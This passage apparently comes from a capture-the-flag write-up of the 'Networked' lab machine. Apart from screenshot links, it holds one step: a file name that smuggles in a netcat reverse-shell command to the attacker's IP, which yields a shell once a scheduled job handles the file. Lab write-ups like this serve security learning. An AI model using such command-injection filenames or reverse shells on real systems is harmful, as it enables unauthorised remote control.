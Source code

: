 ![https://raw.githubusercontent.com/CsEnox/csenox.github.io/master/img/Networked%20Box%206b5ef76c517348afa96073ba0c0c9d80/Untitled%2016.png](https://raw.githubusercontent.com/CsEnox/csenox.github.io/master/img/Networked%20Box%206b5ef76c517348afa96073ba0c0c9d80/Untitled%2016.png)

→ Creating a file :

**`touch '; nc 10.10.14.4 4444 -c bash'`**

![https://raw.githubusercontent.com/CsEnox/csenox.github.io/master/img/Networked%20Box%206b5ef76c517348afa96073ba0c0c9d80/Untitled%2017.png](https://raw.githubusercontent.com/CsEnox/csenox.github.io/master/img/Networked%20Box%206b5ef76c517348afa96073ba0c0c9d80/Untitled%2017.png)

→ After waiting for 3mins we get an shell :

![https://raw.githubusercontent.com/CsEnox/csenox.github.io/master/img/Networked%20Box%206b5ef76c517348afa96073ba0c0c9d80/Untitled%2018.png](https://raw.githubusercontent.com/CsEnox/csenox.github.io/master/img/Networked%20Box%206b5ef76c517348afa96073ba0c0c9d80/Untitled%2018.png)
